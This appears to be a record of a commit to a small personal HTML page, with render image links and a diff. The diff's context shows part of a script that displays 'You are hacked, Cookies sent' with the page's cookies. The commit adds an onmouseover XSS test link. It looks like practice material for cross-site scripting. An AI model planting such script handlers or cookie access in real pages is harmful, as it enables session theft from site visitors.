

Before and after one commit to imrobs/robins, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 84-250 px from the top of the page, 0-640 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -23,5 +23,7 @@
             alert("You are hacked,Cookies sent: " + document.cookie); // Optional: Display the cookies for testing
         }
     </script>
+    <a href="#" onmouseover="alert('XSS Triggered!')">test</a>
+
 </body>
 </html>
```
